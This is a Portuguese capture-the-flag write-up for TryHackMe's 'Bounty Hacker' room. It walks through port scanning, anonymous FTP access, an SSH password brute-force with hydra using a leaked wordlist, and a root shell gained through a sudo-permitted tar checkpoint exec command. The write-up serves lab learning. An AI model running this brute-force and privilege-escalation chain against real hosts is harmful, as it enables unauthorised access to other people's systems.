


> [!WARNING]
> This writeup is in portuguese. For the english version, please follow [this link](./Writeup%20(EN-US).md).

# [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

<a href="https://tryhackme.com/room/cowboyhacker"><figure></figure></a>

> You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

Capture The Flag original disponível em [Try Hack Me](https://tryhackme.com/room/cowboyhacker), feito por [Sevuhl](https://tryhackme.com/p/Sevuhl).

Dificuldade: `Fácil`

Resolvido em: `2026/04/03`

# Conteúdos

...

# Writeup

## Sumário

O desafio `Bounty Hacker` consiste na aquisição de acesso de uma porta `ssh` usando uma porta `ftp`.

## Reconhecimento

Como normal, a plataforma THM providencia o IP de acesso para a máquina. Primeiramente realizei um ajuste para a facilidade durante a solução: adicionei a linha `<MACHINE_IP> cbh.net` para o arquivo `/etc/hosts`. Desta forma, posso acessar a máquina com a referência `cbh.net`, descomplicando muitos comandos.

Logo após, verifiquei se tudo estava certo.

```bash
$ ping -c 3 cbh.net                             
PING cbh.net (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from cbh.net (<MACHINE_IP>): icmp_seq=1 ttl=62 time=171 ms
64 bytes from cbh.net (<MACHINE_IP>): icmp_seq=2 ttl=62 time=149 ms
64 bytes from cbh.net (<MACHINE_IP>): icmp_seq=3 ttl=62 time=186 ms

--- cbh.net ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 149.431/168.947/186.171/15.086 ms
```

Sem nenhuma outra informação disponível, realizei um escaneamento das portas abertas com `nmap`[^nmap] para encontrar um caminho de penetração.

```bash
$ nmap -T4 cbh.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-03 12:02 UTC
Nmap scan report for cbh.net (<MACHINE_IP>)
Host is up (0.15s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

Irei começar analizando a porta `http` e verificar se existe alguma informação ali.

<figure></figure>

Apenas uma introdução, e no código fonte, nada de interessante além de um diretório para salvar a imagem:

```html
<!-->...</!-->

<div class='img-container'>
	
</div>

<!-->...</!-->
```

<figure></figure>

E, para confirmar as suspeitas, ao usar `gobuster`[^gobuster] com uma wordlist padrão do kali linux[^wl-dirl23med] revela nenhum outro diretório:

```bash
$ gobuster dir -u cbh.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cbh.net
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 969]
/images               (Status: 301) [Size: 303] [--> http://cbh.net/images/]
/javascript           (Status: 301) [Size: 307] [--> http://cbh.net/javascript/]
```

O diretório `/javascript`, por sinal, está com acesso restrito.

<figure></figure>

Resta, então, a exploração da porta `ftp`. Usando um acesso padrão de porta `ftp` (usuário `anonymous`) revela dois arquivos, `locks.txt` e `task.txt`:

```
task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

```
locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Com isso, uma das tarefas pode ser resolvida.
- Q: Who wrote the task list? A: `lin`

Ao mesmo tempo, o arquivo `locks.txt` é formatado como uma wordlist. Considerando que ainda existe uma porta `ssh` para ser acessada, eu assumi que esses valores seriam ou usuários ou senhas. Devido ao jeito que estão escritos, mais possivelmente senhas. Verificando a possibilidade usando `nmap`[^nmap] revela que a porta `ssh` realmente tem acesso por senha.

```bash
$ nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 22 cbh.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-03 12:31 UTC
Nmap scan report for cbh.net (<MACHINE_IP>)
Host is up (0.17s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password

Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
```

- Q: What service can you bruteforce with the text file found? A: `ssh`

Então, com `hydra`[^hydra] basta fazer um bruteforce de todas as senhas do arquivo. O usuário possui algumas possibilidades, mas considerando a estrutura do desafio e o arquivo `task.txt`, decidi usar `lin`:

```bash
$ hydra -l lin -P ~/cbh/locks.txt ssh://cbh.net
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-04-03 12:42:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://cbh.net:22/
[22][ssh] host: cbh.net   login: lin   password: <FLAG_1>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-04-03 12:43:05
```

Credenciais encontradas! Usuário `lin`, senha <FLAG_1>.

- Q: What is the users password? A: <FLAG_1>


## Escalação de Privilégios

Usando o protocolo padrão do `ssh`, realizei a conexão no terminal.

```bash
$ ssh -L 1234:cbh.net:22 lin@cbh.net
lin@cbh.net's password: <FLAG_1>
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Mon Aug 11 12:32:35 2025 from <MACHINE_IP>
```

```bash
lin@<MACHINE_IP>:~/Desktop$ whoami
lin
```

Ótimo, uma entrada foi estabelecida. Continuando com os processos padrões, usar `ls` no diretório `~/Desktop/` revela uma das flags da máquina:

```bash
lin@<MACHINE_IP>:~/Desktop$ ls
user.txt
lin@<MACHINE_IP>:~/Desktop$ cat user.txt
<FLAG_2>
```

- Q: `user.txt` A: <FLAG_2>

Agora para a escalação de privilégios. Averiguar as permissões de `sudo` sempre são um bom início:

```bash
lin@<MACHINE_IP>:~$ sudo -l
[sudo] password for lin: <FLAG_1>
Matching Defaults entries for lin on <MACHINE_IP>:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
User lin may run the following commands on <MACHINE_IP>:
    (root) /bin/tar
```

Opa! O comando `tar` (usualmente feito para compressão de arquivos) está disponível para uso com `sudo` (e por coincidência a senha do `sudo` é <FLAG_1>). Usando um dos comandos de [GTFObin](https://gtfobins.org/) para [tar](https://gtfobins.org/gtfobins/tar/#shell) é simples a escalação de privilégios:

```bash
lin@<MACHINE_IP>:~$ sudo tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# whoami
root
```

Com isso e um pouquinho mais de exploração, não é longo até encontrar `root.txt`:

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
<FLAG_3>
```

- Q: `root.txt` A: <FLAG_3>


[^nmap]: https://github.com/nmap/nmap
[^gobuster]: https://github.com/OJ/gobuster
[^wl-dirl23med]: https://gitlab.com/kalilinux/packages/dirbuster/-/blob/37f2e9bb1c50bee238aa50d795cf853bb28b2997/directory-list-2.3-medium.txt
[^hydra]: https://github.com/vanhauser-thc/thc-hydra